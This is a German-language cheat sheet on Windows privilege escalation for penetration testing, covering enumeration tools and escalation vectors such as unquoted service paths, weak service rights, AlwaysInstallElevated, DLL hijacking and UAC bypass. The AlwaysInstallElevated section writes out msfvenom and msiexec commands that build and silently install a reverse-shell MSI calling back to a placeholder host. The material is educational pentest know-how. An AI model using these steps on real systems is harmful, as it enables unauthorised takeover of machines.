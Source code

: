 # Windows Privilege Escalation 🪟

Diese Datei dokumentiert Methoden, Tools und Vorgehensweisen zur Privilegienerweiterung (Privilege Escalation) auf **Windows-Systemen**. Sie dient ausschließlich zu **Schulungszwecken** im Rahmen von Penetration Tests und Security-Audits durch autorisierte Fachkräfte.

---

## 🔧 Nützliche Tools

### 1. `whoami`-Befehle

```bash
whoami /user           # Aktueller Benutzername mit SID
whoami /groups         # Gruppenmitgliedschaften (z. B. Admins)
whoami /priv           # Aktive Berechtigungen des Benutzers
```

### 2. `accesschk.exe` von Sysinternals

Tool zur Analyse von Zugriffsrechten:

```bash
accesschk.exe -uws "Benutzer" *               # Zugriffsrechte auf Dienste
accesschk.exe -ucqv Benutzer Pfad\zur\Datei  # Detaillierte Rechteprüfung
```

### 3. `Seatbelt.exe`

Tool zur Informationssammlung auf dem Zielsystem (C#):

```bash
Seatbelt.exe all
```

Funktioniert gut bei eingeschränkten Benutzerrechten – erkennt z. B. gespeicherte Passwörter, schwache Registry-Einstellungen usw.

### 4. `WinPEAS.exe`

Automatisiertes Enumeration-Tool:

```bash
WinPEASx64.exe oder WinPEASx86.exe
```

Identifiziert potenzielle Schwachstellen wie Dienste mit schwachen ACLs, ungesicherte Tasks, UAC-Bypass-Möglichkeiten etc.

---

## 🧰 Typische Escalation-Vektoren

### 🔹 1. Unquoted Service Paths

Nicht in Anführungszeichen gesetzte Pfade in Diensten:

```bash
sc qc <ServiceName>
```

Pfad zu ausführbarer Datei enthält Leerzeichen → eigene Binärdatei einschleusen.

### 🔹 2. Schwache Dienstrechte (Insecure Permissions)

Benutzer hat Schreibrechte auf den Dienst:

```bash
accesschk.exe -uws Benutzer *
```

→ Dienstdatei oder Binärpfad ersetzen.

### 🔹 3. Scheduled Tasks mit schwachen Rechten

```bash
taskschd.msc
schtasks /query /fo LIST /v
```

→ Aufgabe manipulieren oder durch Trojaner ersetzen.

### 🔹 4. AlwaysInstallElevated (MSI-Bypass)

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

Werte:

```
AlwaysInstallElevated    REG_DWORD    0x1
```

Dann:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### 🔹 5. DLL Hijacking

Wenn ein ausführbares Programm DLLs aus unsicheren Pfaden lädt:

* `.dll` Datei mit Payload erstellen
* In priorisierten Ordnern (gleicher Pfad wie EXE) ablegen

Tools zur Analyse: [Procmon.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)

### 🔹 6. UAC-Bypass (User Access Control)

Identifiziere UAC-schwache Prozesse:

* `fodhelper.exe`
* `eventvwr.exe`

UACMe-Tool: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

---

## 📜 Tipps zur Analyse

* **PowerUp.ps1** (PowerShell Framework)
* **SharpUp** (C#): Enumeration wie PowerUp, aber für AV-Bypass geeignet
* **Windows Exploit Suggester – Next Generation**

---

## ⚠️ Ethik-Hinweis

Diese Datei dient **nur zu Schulungszwecken**. Sie soll helfen, Schwachstellen in Windows-Systemen zu erkennen, um sie gezielt zu **schließen**. Jegliche nicht autorisierte Nutzung der genannten Methoden ist **illegal** und wird strafrechtlich verfolgt.

> "Mit Wissen kommt Verantwortung. Nutze es zum Schutz, nicht zum Schaden."

---

## 🔗 Weiterführende Links

* [GTFOBins Windows Pendant: LOLBAS](https://lolbas-project.github.io/)
* [Windows-Privilege-Escalation-Cheat-Sheet](https://github.com/netbiosX/Checklists)
* [PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation)
